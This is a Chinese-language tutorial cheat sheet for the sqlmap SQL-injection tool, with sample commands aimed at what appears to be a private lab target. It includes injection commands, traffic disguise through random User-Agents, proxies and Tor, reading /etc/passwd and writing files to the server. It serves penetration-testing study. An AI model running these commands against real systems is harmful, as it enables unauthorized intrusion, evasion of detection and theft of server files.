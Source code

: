 1. 选项-u或--url
	- 选定一个url目标，并执行SQL注入攻击示例:
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1"
1. 选项-m 
	- 批量执行url目标（推荐）
	- python36 sqlmap.py -m ./data/txt/urls.txt
1. 选项--batch
	- 在sqlmap执行时没有任何用户交互，强制运行
	- python sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1" --batch
1. 选项-f fingerprint
	- 数据库管理系统指纹识别
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1" -f
1. 选项--banner 
	- 数据库banner信息，执行更广泛的数据库管理系统指纹识别（推荐）
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1/?id=1" --banner
1. 选项-d或--data
	- 默认的HTTP请求发送方式是GET，可以通过该选项指定为POST
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --data="id=1" -f --banner --dbs --users
1. 选项--method
	- 指定请求方法，通常Sqlmap能自动判断出是使用GET方法还是POST方法，但在某些情况下需要的可能是PUT等很少见的方法，此时就需要用参数“--method”来指定方法
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --method=PUT
1. 选项--cookie(就够用了),--cookie-del（指定分隔符）,--load-cookies
	- 意义：没有登录场景下，无法看到更多的信息
	- 说明:在sqlmap执行注入攻击的过程中，如果浏览器返回了Set-Cookie的headers，那么sqlmap会自动识别这一指令，并更新对应的Cookie，如果我们已经通过-cookie设定了Cookie的数值，那么sqlmap会向我们确认是否进行更新
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --cookie 'cookie#cookie2' --cookie-del "#"
1. 选项--user-agent或--random-agent
	- 意义：服务端很容易发现，需要伪装
	- 默认情况下，sqlmap发送的HTTP请求中User-Agent值:sqlmap/1.0-dev-xxxxxxx(http://sqlmap.org)
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --user-agent "ua"
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --random-agent(推荐用法)
1. 选项 --proxy（内网环境或者网络不可达环境）,--proxy-file (指定一个存储着代理列表的文件)
	- 在实战场景下非常重要，允许sqlmap的请求都通过我们设置的proxy进行发送，无论是出于隐藏自身IP地址的目的，还是绕过IP限制，都非常实用
	- 例如使用参数“--proxy”来设置一个HTTP(S)代理，格式是“http(s)://url:port”。若代理需要认证，使用参数“--proxy-cred”来提供认证凭证，格式是“username:password”
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --proxy=(http|https|socks4|socks5)://address:port --proxy-cred=username:password
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --proxy-file ./data/txt/proxys.txt
1. 选项--tor,--tor-port,--tor-type 以及--check-tor
	- 通过配置Tor Client以及Privoxy我们就可以启用-tor选项
	- 该选项可以使得sqlmap的请求通过Tor网络进行发送，以达到匿名的目的。
	- 同时，我们还可以通过--tor-port 以及--tor-type 设置所使用的的 Tor Proxy 类型
	-check-tor 则是用来检测 Tor 网络是否配置目连接正常
1. 选项--crawl
	- 从目标位置开始收集（爬虫）可能易受攻击的链接
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1?id=1" --crawl=10 --batch
1. 选项--threads
	- 最大并发HTTP(S)请求数
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --threads=6 --batch
	- import multiprocessing
	- multiprocessing.cpu_count() #获取系统逻辑CPU个数
1. 选项--risk=1-3，--level=1-5 默认都是1
	- level级别升高，会加更多的payload用于测试，level=2会加cookie的测试，level=3会加Useragent的注入测试检测，level=5会加host注入点测试
	- risk是一个比较危险的选项，级别升高会加or和Update，可能对数据库表内容进行修改。往往不是我们所期望的，所以谨慎使用。
	- 如果不输入?id=1 sqlmap 自动指定参数，可以观察到大量 payload，而 risk 1 level 1会直接退出
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --risk=3 --batch
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1" --level=3 --batch
1. 选项--privileges（检测当前用户授权） --is-dba（判断当前执行查询的用户是否是DBA）
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1?id=1" --privileges --batch
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1?id=1" --is-dba --batch
1. 选项--file-read（从服务器端读取文件保存本地） --file-write（本地文件路径）  --file-dest（服务器文件路径）
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1?id=1" --file-read "/etc/passwd" --batch
	- python36 sqlmap.py -u "http://10.8.250.77:8082/Less-1?id=1" --file-write "./data/txt/pikachu.txt" --file-dest "/tmp/pikachu.txt" --batch	